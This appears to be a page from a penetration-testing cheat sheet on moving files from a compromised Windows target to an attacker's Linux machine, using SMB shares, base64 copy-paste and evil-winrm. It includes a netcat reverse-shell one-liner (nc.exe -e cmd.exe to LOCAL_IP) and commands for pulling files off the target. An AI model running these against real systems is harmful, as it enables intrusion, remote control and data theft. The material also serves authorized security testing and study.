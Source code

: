 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2024-6-26
tags: ["Smb", "File System Mounting",  "Http File Transfer", "Remote File Inclusion", "File Transfer", "Windows", "Evil-Winrm"]
---
```


{{< tab set1 tab1 >}}SMB{{< /tab >}}
{{< tab set1 tab2 >}}Base64{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local SMB Server

```console
impacket-smbserver share . -smb2support
```

#### cmd

```console
# Connect to SMB server without creds
net use \\<LOCAL_IP>\share
```

```console
# Connect to SMB server with creds
net use \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# From target Windows to local Linux
copy <FILE> \\<LOCAL_IP>\share
```

```console
# From local Linux to target Windows
copy \\<LOCAL_IP>\share\<FILE> <FILE>
```

```console
# Delete file
del <FILE>
```

```console
# Remove SMB share
net use /d \\<LOCAL_IP>\share
```

```console
# Older Windows (e.g. xp), use directly
\\<LOCAL_IP>\share\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Small binary

```console
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\<FILE>' -Encoding Byte))
```

```console
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
download 'C:\ProgramData\<FILE>' '<LOCAL_DEST_PATH>'
```

{{< /tabcontent >}}
